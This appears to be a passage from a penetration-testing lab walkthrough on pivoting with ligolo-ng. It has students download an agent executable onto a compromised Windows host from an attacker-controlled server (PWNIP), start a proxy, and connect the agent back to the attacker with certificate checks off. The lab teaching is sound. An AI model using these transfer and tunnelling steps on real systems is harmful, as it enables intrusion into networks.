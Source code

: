 Subsequently, students will return to the RDP session and the previously spawned `PowerShell` window, where they will proceed to download the executable:

Code: powershell

```powershell
iwr -uri http://PWNIP:8000/agent.exe -o agent.exe
```

```
PS C:\Users\helen> iwr -uri http://10.10.15.174:8000/agent.exe -o agent.exe
```

Students will return to their workstations, they can terminate the Python HTTP server, and they will proceed to start `ligolo`'s proxy:

Code: shell

```shell
./proxy -selfcert
```

```
┌─[eu-academy-5]─[10.10.14.221]─[htb-ac-8414@htb-d4d4brjin5]─[~]
└──╼ [★]$ ./proxy -selfcert

WARN[0000] Using default selfcert domain 'ligolo', beware of CTI, SOC and IoC! 
WARN[0000] Using self-signed certificates               
ERRO[0000] Certificate cache error: acme/autocert: certificate cache miss, returning a new certificate 
WARN[0000] TLS Certificate fingerprint for ligolo is: A910475F1FBB2F071C47BC3CCF0685188A816C82CB654A25505479E67071293B 
INFO[0000] Listening on 0.0.0.0:11601                   
    __    _             __                       
   / /   (_)___ _____  / /___        ____  ____ _
  / /   / / __ \`/ __ \/ / __ \______/ __ \/ __ \`/
 / /___/ / /_/ / /_/ / / /_/ /_____/ / / / /_/ / 
/_____/_/\__, /\____/_/\____/     /_/ /_/\__, /  
        /____/                          /____/   

  Made in France ♥            by @Nicocha30!
  Version: 0.6.2

ligolo-ng » 
```

Subsequently, students will return to the RDP session to establish the dynamic port-forwarding using the agent previously transferred:

Code: powershell

```powershell
.\agent.exe -connect PWNIP:11601 -ignore-cert
```

```
PS C:\Users\helen> .\agent.exe -connect 10.10.14.221:11601 -ignore-cert

time="2024-07-11T03:49:21-05:00" level=warning msg="warning, certificate validation disabled"
time="2024-07-11T03:49:21-05:00" level=info msg="Connection established" addr="10.10.14.221:11601"
```
